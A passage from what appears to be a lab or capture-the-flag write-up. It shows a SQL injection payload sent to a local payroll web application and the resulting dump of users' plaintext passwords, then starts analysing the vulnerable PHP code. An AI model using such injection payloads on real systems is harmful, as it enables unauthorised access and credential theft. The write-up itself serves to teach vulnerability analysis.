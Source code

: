 The output of the script is listed below, with some formatting applied to the HTML portion to enhance readability:

```html
Making POST request to http://127.0.0.1/payroll_app.php with the following parameters:
'user' = luke_skywalker
'password' = password'; select password from users where username='' OR ''='
Response body is 

<center>
<h2>Welcome, luke_skywalker</h2>
<br>
<table style='border-radius: 25px; border: 2px solid black;' cellspacing=30>
<tr>
   <th>Username</th>
   <th>First Name</th>
   <th>Last Name</th>
   <th>Salary</th>
</tr>
<center>
   <h2>Welcome, luke_skywalker</h2>
   <br>
   <table style='border-radius: 25px; border: 2px solid black;' cellspacing=30>
      <tr>
         <th>Username</th>
         <th>First Name</th>
         <th>Last Name</th>
         <th>Salary</th>
      </tr>
      <tr><td>help_me_obiwan</td></tr>
      <tr><td>like_my_father_beforeme</td></tr>
      <tr><td>nerf_herder</td></tr>
      <tr><td>b00p_b33p</td></tr>
      <tr><td>Pr0t0c07</td></tr>
      <tr><td>thats_no_m00n</td></tr>
      <tr><td>Dark_syD3</td></tr>
      <tr><td>but_master:(</td></tr>
      <tr><td>mesah_p@ssw0rd</td></tr>
      <tr><td>@dm1n1str8r</td></tr>
      <tr><td>mandalorian1</td></tr>
      <tr><td>my_kinda_skum</td></tr>
      <tr><td>hanSh0tF1rst</td></tr>
      <tr><td>rwaaaaawr8</td></tr>
      <tr><td>Daddy_Issues2</td></tr>
   </table>
</center>
Done
```

#### Vulnerabilities in the `payroll_app.php` Source Code

OK, that was interesting, but back to business. We are going to analyze the actual web application code that is causing the SQL Injection vulnerability. The previous results from the `find` command indicated that the web application was stored in the default location of `/var/www/html`. The file can easily be viewed using: `cat /var/www/html/payroll_app.php`. After having a quick browse over the code, there are three main blocks:
